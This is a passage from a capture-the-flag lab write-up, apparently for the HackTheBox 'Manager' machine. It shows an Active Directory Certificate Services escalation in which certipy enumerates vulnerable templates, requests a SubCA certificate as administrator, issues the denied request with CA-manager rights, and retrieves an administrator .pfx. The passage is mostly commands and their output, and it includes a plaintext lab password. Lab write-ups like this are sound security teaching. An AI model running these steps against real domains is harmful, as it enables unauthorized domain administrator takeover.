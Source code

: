 Now raven appears in the find as certificate manager:

```bash
certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
...[snip]...
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
```

Now, we will try to retrieve the Administrator certificate to connect with evil-winrm as administrator.

First: Request the admin cert:

```bash
certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)                             

[*] Requesting certificate via RPC                         
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate
```

This fails, but we can keep the private key. Then, using the Manage CA and Manage Certificates privileges, I’ll use the ca subcommand to issue the request:

```bash
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)
                                                                    
[*] Successfully issued certificate
```

Now, the issued certificate can be retrieved using the req command:

```bash
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)    
                                                                    
[*] Rerieving certificate with ID 13          
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'                     
[*] Saved certificate and private key to 'administrator.pfx'
```

